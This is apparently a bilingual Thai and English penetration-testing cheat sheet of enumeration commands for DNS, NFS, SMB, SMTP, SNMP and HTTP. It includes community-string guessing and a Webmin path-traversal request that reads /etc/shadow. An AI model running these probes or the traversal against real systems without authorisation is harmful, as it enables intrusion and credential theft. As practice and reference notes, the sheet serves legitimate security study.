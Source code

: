 # Enumerate

การตรวจสอบหาข้อมูลของ DNS Zone Transfers
	
```bash
#Windows DNS zone transfer
nslookup -> set type=any -> ls -d icesuntisuk.com
	
#Linux DNS zone transfer
dig axfr icesuntisuk.com @ns1.icesuntisuk.com
host -t ns icesuntisuk.com
host -l icesuntisuk.com ns2.icesuntisuk.com
```
	
คำสั่ง DNS recon	
```bash
#Dnsrecon DNS Brute Force
dnsrecon -d TARGET -D /usr/share/wordlists/dnsmap.txt -t std --xml ouput.xml
	
#Dnsrecon DNS List of megacorp
dnsrecon -d icesuntisuk.com -t axfr
dnsrecon -d icesuntisuk.com
dnsrecon -r 192.168.1.200-192.168.1.254 -n 192.168.1.53   #reverse lookup. dns server is -n
dnsrecon -d icesuntisuk.local -D /usr/share/wordlist/dns/dnsrecon.txt -t brt  #bruteforce the icesuntisuk.local domain for domains and subdomains
dnsrecon -a -d icesuntisuk.local -n 192.168.1.53 ## trying zone transfer. -n is the DNS server
```

การตรวจสอบ NFS (Network File System) Enumeration	
```bash
#Show Mountable NFS Shares 
nmap -sV --script=nfs-* $VictimIP
nmap -sV --script=nfs-showmount $VictimIP
	
#Enumerate NFS shares
showmount -e $VictimIP
	
#Mount NTFS share
mount -t nfs $VictimIP:/home/vulnix /tmp/mnt -nolock
```

การตรวจสอบ SMB Enumeration

```bash	
#SMB Enumeration Tools
nmblookup -A $VictimIP
smbclient //MOUNT/share -I $VictimIP -N
rpcclient -U "" $VictimIP
enum4linux -a $VictimIP
	
#Accessing Share folder
smbclient \\\\$VictimIP\\wwwroot -u "" -p
smbclient //$VictimIP/Bob\ Share
```

SMTP Enumeration - Mail Severs	

```bash	
#Verify SMTP port using Netcat
nc -nv $VictimIP 25
	
#Enumration username through VRFY
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t $VictimIP
```

#SNMP Enumeration	
	
	//SNMP Dictionary attack
	root@kali:~# echo public > community
	root@kali:~# echo private >> community
	root@kali:~# echo manager >> community
	root@kali:~# for ip in $(seq 1 254);do echo 10.11.1.$ip;done > ips
	root@kali:~# onesixtyone -c community -i ips
	
#Webmin	
	
	//Test to see if webmin is running as root by grabbing /etc/shadow
	`curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow`
	
#HTTP Enumeration	
	
	//Search for folders with gobuster:
	gobuster -w /usr/share/seclists/Discovery/Web_Content/common.txt -u $ip -t 100
	
	//Nikto
	nikto -h $ip